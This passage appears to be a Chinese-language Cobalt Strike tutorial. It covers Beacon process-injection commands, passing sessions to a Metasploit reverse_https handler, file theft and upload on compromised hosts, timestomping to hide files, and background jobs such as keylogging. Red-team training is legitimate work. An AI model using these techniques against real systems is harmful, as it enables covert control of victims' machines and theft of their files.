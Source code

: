 `spawn`和`inject`命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。

`dllinject`：`dllinject + [pid]`来将一个反射性 DLL 注入到一个进程中。

`shinject`：使用`shinject [pid] [架构] [/路径/.../file.bin]`命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。

`shspawn`：使用`shspawn [架构] [/路径/.../file.bin]`命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。

`dllload`：使用`dllload [pid] [c:\路径\...\file.dll]`来在另一个进程中加载磁盘上的 DLL文件。

**会话传递使用场景**

1、将当前会话传递至其他CS团队服务器中，直接右击`spawn`选择要传递的监听器即可。

2、将当前会话传递至MSF中，这里简单做一下演示。

首先，在MSF中，为攻击载荷新建一个payload

````
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
````

随后，在CS中新建一个外部`Foreign`监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用`spawn`选择刚新建的外部监听器，MSF中即可返回会话。

## 3、文件系统

浏览会话系统文件位置在右击会话处，选择 `Explore --> File Browser`即可打开。在这里可以对当前会话下的文件进行浏览、上传、下载、删除等操作。

在进行文件浏览时，如果 beacon 设置的 sleep 值较高，CS会因此而变得响应比较慢。

彩色文件夹表示该文件夹的内容位于此文件浏览器的缓存中；深灰色的文件夹表示该文件夹的内容不在此文件浏览器缓存中。

**文件下载**

`download`：下载请求的文件。Beacon 会下载它的任务要求获取的每一个文件的固定大小的块。这个块的大小取决于 Beacon 当前的数据通道。HTTP 和 HTTPS 通道会拉取 512kb 的数据块。

`downloads`：查看当前 Beacon 正在进行的文件下载列表。

`cancel`：该命令加上一个文件名来取消正在进行的一个下载任务。也可以在 cancel 命令中使用通配符来一次取消多个文件下载任务。

下载文件都将下载到CS团队服务器中，在`View --> Download`下可看到下载文件的记录，选中文件后使用`Sync Files`即可将文件下载到本地。

**文件上传**

`upload`：上传一个文件到目标主机上。

`timestomp`：将一个文件的修改属性访问属性和创建时间数据与另一个文件相匹配。当上传一个文件时，有时会想改变此文件的时间戳来使其混入同一文件夹下的其他文件中，使用timestomp 命令就可以完成此工作。

## 4、用户驱动溢出攻击

Beacon 运行任务的方式是以`jobs`去运行的，比如键盘记录、PowerShell 脚本、端口扫描等，这些任务都是在 beacon check in 之间于后台运行的。

`jobs`：查看当前 Beacon 中的任务
